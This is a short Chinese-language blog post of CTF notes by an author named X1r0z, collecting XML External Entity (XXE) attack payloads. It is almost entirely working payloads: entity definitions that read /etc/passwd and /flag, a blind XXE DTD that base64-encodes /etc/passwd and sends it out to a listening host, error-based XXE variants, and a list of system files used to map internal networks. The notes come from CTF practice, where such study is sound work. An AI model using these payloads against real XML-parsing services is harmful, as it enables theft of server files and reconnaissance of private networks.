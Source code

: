 ```yaml
---
title: "XXE 总结笔记"
date: 2022-08-27T18:18:31+08:00
lastmod: 2022-12-20T18:18:31+08:00
draft: false
author: "X1r0z"

tags: ['ctf','xxe']
categories: ['CTF笔记']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


记录一下常用 xxe payload

想到啥写啥, 只是一个备忘录

<!--more-->

## 引用外部实体

SYSTEM

```xml-dtd
<!ENTITY xxs SYSTEM "file:///etc/passwd" >
```

PUBLIC

```xml-dtd
<!ENTITY % remote PUBLIC "dtd" "http://127.0.0.1/evil.dtd">
```

## 常规 XXE

通用实体

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY file SYSTEM "file:///etc/passwd">]>
<test>
&file;
</test>
```

参数实体 (利用 CDATA)

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY % start "<![CDATA[">
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://127.0.0.1/evil.dtd">
%dtd;]>
<test>
&all;
</test>
```

evil.dtd

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!ENTITY all "%start;%xxe;%end;" >
```

## Blind XXE

payload

```xml-dtd
<!DOCTYPE test [
<!ENTITY % remote SYSTEM "http://127.0.0.1/evil.dtd">
%remote;%int;%send;
]>
```

evil.dtd

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1/?p=%file;'>">
```

## Error-based XXE

引用本地 dtd

```dtd
<?xml version="1.0"?>
<!DOCTYPE root [
<!ELEMENT root ANY>
<!ELEMENT message ANY>
    <!ENTITY % local SYSTEM "/usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % ISOamso '
        <!ENTITY &#x25; eval "
            <!ENTITY &#x26;#x25; error SYSTEM &#x27;&#x25;file;&#x27;>
        ">
        &#x25;eval;
    '>
    %local;
]>
<root>
<message>123</message>
</root>
```

多层内部实体嵌套绕过, 无需引用 dtd

```dtd
<?xml version="1.0"?>
<!DOCTYPE root [
<!ELEMENT root ANY>
<!ELEMENT message ANY>
    <!ENTITY % file SYSTEM "file:///flag">
    <!ENTITY % eval1 '
        <!ENTITY &#x25; eval2 "
            <!ENTITY &#x26;#x25; error SYSTEM &#x27;&#x25;file;&#x27;>
        ">
        &#x25;eval2;
    '>
    %eval1;
]>
<root>
<message>123</message>
</root>
```

## 获取内网网段

```
/etc/network/interfaces
/etc/hosts
/proc/net/arp
/proc/net/tcp
/proc/net/udp
/proc/net/dev
/proc/net/fib_trie
```